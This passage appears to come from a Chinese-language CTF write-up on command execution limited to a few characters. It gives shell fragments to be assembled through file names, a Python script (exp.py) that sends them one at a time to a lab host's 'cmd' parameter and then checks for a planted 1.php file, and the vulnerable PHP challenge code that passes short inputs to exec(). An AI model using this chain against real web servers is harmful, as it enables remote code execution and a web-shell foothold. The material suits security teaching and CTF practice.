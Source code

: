 ```shell
h\\
XZ\\
gZ\\
A\\
aH\\
w\\
D9\\ 
P\\
S}\\
IF\\
{\\
\$\\
o\\
ch\\
e\\
sh a
sh f
```

exp.py

```python
#!/usr/bin/python

# -*- coding: UTF-8 -*-

import requests
url = "http://192.168.12.107/5/index.php?cmd={0}"
print("[+]start attack!!!")
with open("payload.txt","r") as f:
    for i in f:
        print("[*]" + url.format(i.strip()))
        requests.get(url.format(i.strip()))
        #检查是 否攻击成功
test = requests.get("http://192.168.12.107/5/sandbox/2ad26c4b0f3cdead3c4c1955ad805b8d/1.php")
if test.status_code == requests.codes.ok:
    print("[*]Attack success!!!")
```

这里注意网上其他文 章并没有介绍说，这样利用有失败的可能，需要多跑几次脚本，我本地利用Kali的测试结果是如此。

## 4位可控字符的命令执行

```php
 <?php
    error_reporting(E_ALL);
    $sandbox = '/var/www/html/sandbox/'.md5("orange".$_SERVER['REMOTE_ADDR']);
    mkdir($sandbox);
    chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
?>
```
